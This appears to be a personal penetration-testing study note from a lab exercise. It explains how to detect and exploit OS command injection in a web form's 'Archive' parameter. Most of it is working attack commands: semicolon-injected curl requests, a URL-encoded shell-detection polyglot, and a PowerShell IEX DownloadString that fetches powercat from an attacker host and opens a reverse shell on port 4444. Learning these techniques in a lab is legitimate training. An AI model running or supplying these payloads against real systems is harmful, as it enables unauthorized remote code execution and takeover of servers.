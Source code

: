 # how to detect?

![[Pasted image 20240427210530.png]]

check for any input field and search whether it can run any command?
### yes?
then run command with `;` like `git;ifconfig`

## works then it's cmd execution


now check what is the input field and how it is processing data

now you can do with curl & burp both

## curl

![[Pasted image 20240427211110.png]]

```
curl -X POST --data 'Archive=git%3Bipconfig' http://$IP:8000/archive
```

#check-shell
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

### don't forget URL encoding
```
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive
```

### transfer powercat (as it's windows)

```
IEX (New-Object Net.WebClient).DownloadString("http://192.168.45.231/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
```

start server and catch request

![[Pasted image 20240427211708.png]]

```
curl -X POST --data 'Archive=git%3BIEX%20%28New-Object%20Net.WebClient%29.DownloadString%28%22http%3A%2F%2F192.168.45.231%2Fpowercat.ps1%22%29%3Bpowercat%20-c%20192.168.45.231%20-p%204444%20-e%20powershell' http://192.168.164.189:8000/archive
```

## burp (easy)
